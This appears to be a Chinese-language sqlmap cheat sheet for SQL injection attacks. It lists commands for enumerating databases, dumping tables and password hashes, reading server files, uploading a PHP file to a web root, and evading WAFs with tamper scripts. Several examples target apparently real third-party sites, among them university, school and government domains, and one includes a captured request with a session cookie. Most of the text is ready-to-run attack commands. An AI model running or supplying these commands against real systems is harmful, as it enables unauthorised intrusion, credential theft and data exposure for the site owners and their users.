

#### 简单使用sqlMap注入的大致步骤:
```java
1.Sqlmap.py -u "网址"   网址存在注入点
2.曝出数据库名称
--dbms=mysql  oracle mssql     	指定数据库
		--dbs 不指定数据库 
    	读取所有数据库 select schema_name from information_schema.schemata
3.查看web当前使用的数据库
		--current-db
		--users	枚举所有用户
    	默认读取的是 INFORMATION_SCHEMA.USER_PRIVILEGES表中的数据，因为这个表的访问权限较低
    	而不是读取mysql.user 这个表s
4.曝出web数据库使用账户
    	--current-user 当前用户
		--is-dba 判断是否为dba
    		获取当前用户名称
    		eg:UNION ALL SELECT NULL,CONCAT(0x7170787a71,IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20),0x716b717671),NULL-- -
    		从表中查询 super_priv字段的值是否为Y
            UNION ALL SELECT NULL,CONCAT(0x7170787a71,(CASE WHEN ((SELECT super_priv FROM mysql.user WHERE user=0x726f6f74 LIMIT 0,1)=0x59) THEN 1 ELSE 0 END),0x716b717671),NULL--
            这里的 0x726f6f74 为 root,0x59 为Y root
		--roles	列出数据库管理员角色
		--privileges 列出数据库管理员权限
5.列出数据库所有账户
    	--users 读取的是
6.曝出数据库账号和密码/枚举所有用户密码
    	--passwords
7.列出数据库中的表,以及表中记录数(每张表有多少条数据)
		-D XX --tables --count
		(-D：指定数据库名称
		XX：数据库名称
		--tables：列出该数据库的表)
统计表的个数
	-D xx -tables --count
8.列出表中的字段
		-D XX -T YY --columns
		（-D指数据库名称
		XX指数据库
		-T指要列出字段的表
		YY指数据库中的表
		--columns指字段）
9.曝字段内容
		-D XX -T YY -C ”a,b,c” --dump
		(-D指数据库名称
		XX指数据库
		-T指要列出字段的表
		YY指数据库中的表
		-C指定要曝的字段
		--dump将结果导出)
		--dump-all			转存DBMS数据库所有表项目	
10.批量测试多个url
    -m target.txt  target表示需要测试的目标url的文件路径
	参数：-m
	文件中保存url格式如下，sqlmap会一个一个检测
	www.target1.com/vuln1.php?q=foobar
	www.target2.com/vuln2.asp?id=1
	www.target3.com/vuln3/id/1*
eg:python sqlmap.py -m C:\Users\Administrator\Desktop\target.txt --random-agent    
    
11.携带cookie注入 
    -r data.txt  直接跟数据包
eg:python sqlmap.py -r C:\Users\Administrator\Desktop\data.txt --random-agent
    
12.--referer="www.pio.com"  设置referer信息进行测试   
     python sqlmap.py -u "http://www.sqli.com/Less-1/?id=1" --random-agent --referer="www.pio.com" -v 4
    
13. --timeout 设置超时时间
    eg: --timeout 10 设置超时时间为10
        
14. --delay 设置延迟发送请求时间 默认1秒 
    eg:  --delay 5	设置延迟发送请求时间为5秒
        
15. --flush-session 清除之前的缓存信息
```
**-p post请求包中指定测试对应的参数 (用的非常多)**

```
eg:	sqlmap.py -r "C:\Users\Administrator\Desktop\1.txt" -v 4 -p passwd
    
--skip='字段名称' post请求包跳过对某个字段测试
eg:	sqlmap.py -r "C:\Users\Administrator\Desktop\1.txt" -v 4 --skip="uname"
```

   **使用代理proxy**

```
sqlmap -u "https://nuph.health.nu.ac.th/asorm/showallnews.php?type=1" --dbms=mysql --random-agent --time-sec 10 --dbs --proxy=https://127.0.0.1:4780 --flush-session
```

####  优先注入 使用 *


```java

```
#### 探测等级：--level(0~4) 非常重要 

#### 有五个等级

```java
--level  （sqlmap -r 情况下）
共有五个等级，默认为1，sqlmap使用的payload可以在	xml/payloads.xml中看到，自己也可以根据相应的格式添加自己的payload。
level>=2的时候就会测试HTTP Cookie。
    eg:sqlmap.py -r "C:\Users\Administrator\Desktop\cookie.txt" -v 4 -level 2
level>=3的时候就会测试HTTP User-Agent/Referer头。
level=5 的时候会测试HTTP Host。


共有五个等级，默认为1，sqlmap使用的payload可以在xml/payloads.xml中看到，你也可以根据相应的格式添加自己的payload。
	这个参数不仅影响使用哪些payload同时也会影响测试的注入点，GET和POST的数据都会测试，HTTP Cookie在level为2的时候就会测试，HTTP User-Agent/Referer头在level为3的时候就会测试。
	总之在你不确定哪个payload或者参数为注入点的时候，为了保证全面性，建议使用高的level值。
```
#### 风险等级：--risk(1~3)
```java
	--risk    
共有三个风险等级，1-3，
    默认是1会测试大部分的测试语句，
    2会增加基于时间的测试语句，
    3会增加OR语句的SQL注入测试。
	
	在有些时候，例如在UPDATE、delete的语句中，注入一个OR的测试语句，可能导致更新或者删除的整个表，造成很大的风险。
	
	测试的语句同样可以在xml/payloads.xml中找到，你也可以自行添加payload。
#从文本中获取多个目标扫描 使用傀儡然后通过sqlmap 进行批量漏洞探测
```
#### -v  显示调试信息 有7个级别
```java
	0、只显示python错误以及严重的信息。
	1、同时显示基本信息和警告信息。（默认）
	2、同时显示debug信息。
	3、同时显示注入的payload。-v 3
	4、同时显示HTTP请求信息的内容。
        python sqlmap.py -u "http://www.sqli.com/Less-1/?id=1" --random-agent --referer="www.pio.com" -v 4
	5、同时显示HTTP响应头。
	6、同时显示HTTP响应页面。
```
#### post请求
    这里需要注意的是 AWVS扫描后的请求包需要将构造的payload去掉，不然sqlmap扫描post参数会识别报错，扫描不到东西，数据包如下
```java
	POST /temis/temis-report/dte/1_1.php HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    X-Requested-With: XMLHttpRequest
    Referer: http://www.dongkhamxang-ttc.edu.la/
    Cookie: PHPSESSID=4nbs4j9ro9gj37g0ikituoqep4
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Encoding: gzip,deflate
    Content-Length: 158
    Host: www.dongkhamxang-ttc.edu.la
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
    Connection: Keep-alive
	数据包最后面参数类似如下
    course_group_id=1&school_year_id=2018
    	即用 ->   sqlmap -r "d://postrequest.txt"
	2:POST注入时，什么时候用 -> sqlmap -u  url  --data="key=value" 的形式
	post的body是这种形式的：
	参数1=value1&参数2=value2.....
	使用的方式1
python27 sqlmap.py -r C:\Users\Cracer\Desktop\test.txt
```
#### 构造闭合（用的较多）

**--prefix 闭合前面**

**--suffix 闭合后面**

```java
--prefix 闭合前面,--suffix 闭合后面
	当出现特定方式构造闭合需要指定给sqlmap
eg:
	$sql="SELECT * FROM users WHERE id='(((($id))))' LIMIT 0,1";
	这里指定参数更容易成功
    sqlmap.py -u "http://www.sqli.com/Less-1/?id=1" -v 3 --level 2  --technique U --prefix=))))' -p id --flush-session
    
```
####  自定义输出路径
	--output-dir 自定义输出路径 看个人需求使用

####  字段模糊查询
```java
#--search,-C,-T,-D
	如果数据库中表很多，字段也很多，可以采取模糊匹配或者完整匹配的查找方式
	python27 sqlmap.py -u "http://192.168.149.176:8090/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu --search -C password
```
#### 二阶注入(用的不多)
```java
 sqlmap.py -u "cracer.com/a.php?id=13" --second-order "cracer.com/b.php"
```
#### --smart --mobile
```java
	--smart
	有时对目标非常多的URL进行测试，为节省时间，只对能够快速判断为注入的报错点进行注入，可以使用此参数。
	例子：
	$ python sqlmap.py -u "http://192.168.21.128/sqlmap/mysql/get_int.php?ca=17&user=foo&id=1" --batch --smart
	--mobile
	有时服务端只接收移动端的访问，此时可以设定一个手机的User-Agent来模仿手机登陆。
	例如：
	$ python sqlmap.py -u "http://www.target.com/vuln.php?id=1" --mobile
```
#### --identify-waf,--check-waf
```java
	--identify-waf
	sqlmap可以尝试找出WAF/IPS/IDS保护，方便用户做出绕过方式。目前大约支持30种产品的识别。
	--check-waf
	WAF/IPS/IDS保护可能会对sqlmap造成很大的困扰，如果怀疑目标有此防护的话，可以使用此参数来测试。 sqlmap将会使用一个不存在的参数来注入测试
	例如对一个受到ModSecurity WAF保护的MySQL例子：
	$ python sqlmap.py -u "http://192.168.21.128/sqlmap/mysql/get_int.php?id=1" --identify-waf -v 3
```
#### POST登录框注入
```java
注入点：http://testasp.vulnweb.com/Login.asp
	几种注入方式：./sqlmap.py -r search-test.txt -p tfUPass 
	
	 sqlmap -u http://testasp.vulnweb.com/Login.asp --forms
	 sqlmap -u http://testasp.vulnweb.com/Login.asp --data "tfUName=1&tfUPass=1"
#搜索框注入
	sqlmap.py -r search-test.txt
#伪静态注入
	注入点：http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html
	sqlmap -u http://sfl.fzu.edu.cn/index.php/Index/view/id/40*.htm
#base64编码注入
	sqlmap -u http://ha.cker.in/index.php?tel=LTEnIG9yICc4OCc9Jzg5 --tamper base64encode.py –dbs
	http://lm.yichang.gov.cn/
```
#### 文件上传 --file-write 	--file-dest
```java
	参数：--file-write(上传文件的位置),--file-dest(上传到服务器的位置)
	当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。上传的文件可以是文本也可以是二进制文件。

	python27 sqlmap.py -u "http://192.168.149.176:8090/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" --file-write="C:/Users/Cracer/Desktop/cracer.php" --file-dest="E:/web/pikachu/cracer.php"
```
#### 文件读写
```java
	从数据库服务器中读取文件
	参数：--file-read
	当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。读取的文件可以是文本也可以是二进制文件。
	先执行--sql-shell，然后进行文件读取
	 python27 sqlmap.py -u "http://192.168.149.176:8090/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" --sql-shell
	sql-shell> select load_file('E:/web/indexWebSite/index.html')
	直接在sqlmap控制台读取文件到本地
	python27 sqlmap.py -u "http://192.168.149.176:8090/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" --file-read="E:/web/indexWebSite/index.html" 
```

#### 指定扫描使用的探测技术

#### --technique

```java
--technique ——指定扫描使用的探测技术
	默认使用全部探测技术
	B: Boolean-based blind（布尔型注入）
	E: Error-based（错误型注入）
	U: Union query-based（联合查询注入）
	S: Stacked queries（堆叠多语句查询注入，文件系统、操作系统命令、注册表操作必须使用）
	T: Time-based blind（基于时间延迟注入）
	只列出五种存在时间比较长的技术，可以手动指定哪种技术。
		--technique=BEU
```
#### --headers 请求头注入
```java
	可以通过--headers参数来增加额外的http头
	--hearders "client-ip: 1.1.1.1" --level 3 需要把级别调为3
```
#### 寻找该网页的表单	
```java
	sqlmap.py -u "http://192.168.149.176:8089/"  --form 
#base64注入
sqlmap.py -u "http://xxxxx/index.php?m=case&c=show&id=271787&t=3" --tamper=baseencode.py
改变请求头ip
	xff头
	xforwardedfor
```
#### 把数据以POST方式提交
```java
--data
	此参数是把数据以POST方式提交，sqlmap会像检测GET参数一样检测POST的参数。
	eg：
		python sqlmap.py -u "http://www.cracer.com/cracer.php" --data="id=1"
```
##### --identify-waf,--check-waf
```java
	--identify-waf
	sqlmap可以尝试找出WAF/IPS/IDS保护，方便用户做出绕过方式。目前大约支持30种产品的识别。
	--check-waf
	WAF/IPS/IDS保护可能会对sqlmap造成很大的困扰，如果怀疑目标有此防护的话，可以使用此参数来测试。 sqlmap将会使用一个不存在的参数来注入测试
	例如对一个受到ModSecurity WAF保护的MySQL例子：
	$ python sqlmap.py -u "http://192.168.21.128/sqlmap/mysql/get_int.php?id=1" --identify-waf -v 3
一般使用方式
	python27 sqlmap.py -u "http://www.bldoor.com/aricle.asp?id=904" --user-agent="Mozilla/5.0 (compatible; Baiduspider/ 2.0; +http://www.baidu.com/search/spider.html)" --tamper=space2comment.py
```
#### 参数拆分字符 --param-del
```java
	sqlmap 能识别的参数 id=xx&aa=xx&b=xx
	当GET或POST的数据需要用其他字符分割测试参数的时候需要用到此参数。
	eg： 指定分割测试参数位;
		python sqlmap.py -u "http://www.cracer.com/vuln.php" --data="query=foobar;d=1" --param-del=";" 
#cookie注入
	--cookie
	将参加加入cookie注入测试
	sqlmap -u "http://www.ntjx.org/jsj/DownloadShow.asp" --cookie "id=9" --table --level 2
#--referer
	sqlmap可以在请求中伪造HTTP中的referer，当--level参数设定为3或者3以上的时候会尝试对referer注入。
```

**使用样例**

```
eg:
	判断是否存在注入漏洞
sqlmap.py -u"http://192.168.149.130:8085/index.aspx ?id=1"
	爆当前用户
sqlmap.py -u "http://192.168.149.130:8085/index.aspx ?id=1" --current-user  
	当前用户是否为dba
sqlmap.py -u "http://192.168.149.130:8085/index.aspx ?id=1" --is-dba
	爆当前数据库名称
sqlmap.py -u "http://192.168.149.130:8085/index.aspx ?id=1" --current-db
	爆表  需要指定数据库(acess不需要)
sqlmap.py -u "http://192.168.149.130:8085/index.aspx ?id=1" -D test -tables
	爆字段
sqlmap.py -u "http://192.168.149.130:8085/index.aspx ?id=1" -D test -T admin -columns
	爆内容
sqlmap.py -u "http://192.168.149.130:8085/index.aspx ?id=1" -D test -T admin -C id,username,password --dump
	列数据库的所有用户
sqlmap.py -u "http://192.168.149.181:8081/showproducts.php?id=13" --users
	列数据库用户对应的密码
sqlmap.py -u "http://192.168.149.181:8081/showproducts.php?id=13" --password
	 密码如果cmd5、pmd5都不能解的话可以尝试本地使用离线密码爆破器(hashcat)进行破解
```

